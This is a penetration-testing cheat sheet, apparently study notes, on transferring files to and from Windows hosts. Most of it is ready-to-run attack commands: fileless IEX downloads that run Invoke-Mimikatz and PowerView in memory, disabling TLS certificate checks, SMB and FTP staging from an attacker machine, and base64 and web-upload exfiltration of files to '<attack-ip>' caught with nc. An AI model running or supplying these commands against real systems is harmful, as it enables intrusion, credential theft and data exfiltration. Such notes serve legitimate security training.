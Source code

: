 # *Windows*
- ### *Download*
	- ##### *PowerShell Base64 Encode & Decode*
		- Encode SSH key using `cat id_rsa | base64 -w 0;echo`.
		- Copy the content and put it into a Windows PowerShell and use some PowerShell functions to decode it using `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<base64>"))`.
		- Confirm the file was transferred successfully using `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`.
		- **NOTE:** CMD has a maximum string length of 8,191 characters, which could make this method not impossible.
	- ##### PowerShell
		- **System.Net.WebClient**
			- Download a file over `HTTP, HTTPS or FTP`.
			- `(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
			- Fileless method using `Invoke-Expression` (run from memory).
				- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
				- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`
		- **Invoke-WebRequest**
			- But it is **slower** at downloading files (aliases `iwr, curl, wget`)
			- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`
		- **Common Errors**
			- Internet Explorer first-launch configuration isn't completed, use the option `-UseBasicParsing`.
				- `iwr https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
			- Certificate isn't trusted
				- Use this command before the download command. `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
	- ##### SMB
		- Create an `SMB` server on our device with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) and then use `copy, move` or PowerShell `Copy-Item`.
			- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test` on the attack device.
				- Mount the `SMB` server with username and password. `net use n: \\<ip>\share /user:test test`
				- `copy n:\file` on the target device. 
			- Without `-user` and `-password`, no need to mount. `copy \\<ip>\share\file`.
	- ##### FTP
		-  Configure an `FTP` server on our device with Python module `pyftpdlib`.
			- `sudo pip3 install pyftpdlib`
			- By default, `pyftpdlib` uses port `2121`.
			- Start the server using `sudo python3 -m pyftpdlib --port 21`
			- Using PowerShell
				- `(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file', '<to path>'`
				- In case **Non-Interactive Shell**, create an FTP command file to download a file.
					- `echo open <ip> > ftpcommand.txt`
					- `echo USER anonymous >> ftpcommand.txt`
					- `echo binary >> ftpcommand.txt`
					- `echo GET file.txt >> ftpcommand.txt`
					- `echo bye >> ftpcommand.txt`
					- `ftp -v -n -s:ftpcommand.txt`
- ### *Upload*
	- Used in situations such as password cracking, analysis, exfiltration, etc.
	- ##### PowerShell Base64 Encode & Decode
		- Encode file to Base64 using `[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))` then use `Get-FileHash "C:\Windows\System32\drivers\etc\hosts" -Algorithm MD5 | select Hash` to get the hash to be compared later.
		- Copy the content and paste it into attack host and use `echo "<base64>" | base64 -d > hosts` to save it to a file.
		- Compare the hashes using `md5sum hosts`.
	- ##### PowerShell Web Uploads
		- PowerShell doesn't have a built-in function for upload operations, but `Invoke-WebRequest` or `Invoke-RestMethod` to build an upload function. Also, a web server that accepts uploads, which is not a default option in most common web server utilities, is needed.
		- **Installing a Configured Web Server with Upload**
			- `uploadserver` which is an extended module of the Python `HTTP.server` module which includes a file upload page.
			- Install using `pip3 install uploadserver`.
			- Start the server using `python3 -m uploadserver`, default port is `8080` and path is `/upload`.
		- **PowerShell Script to Upload a File to Python Upload Server**
			- Use the [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) PowerShell script which uses `Invoke-RestMethod` to perform the upload operations.
			- The script accepts two parameters `-File` which is the file path, and `-Uri` which is the upload destination.
			- Load script to memory (Fileless Download) using `IEX(New-Object Net.WebClient).DownloadString('https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1')`.
			- Upload the file using `Invoke-FileUpload -Uri http://<attack-ip>:8080/upload -File C:\Windows\System32\drivers\etc\hosts`.
		- **PowerShell Base64 Web Upload**
			- Use `Invoke-WebRequest` or `Invoke-RestMethod` with Netcat.
			- Encode file using `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`.
			- Use `Invoke-WebRequest -Uri http://<attack-ip>:8080/ -Method POST -Body $b64` to send a POST request with the file to the attacking machine.
			- Catch the Base64 data using `nc -lvnp 8080`.
			- Decode using `echo <base64> | base64 -d -w 0 > hosts`.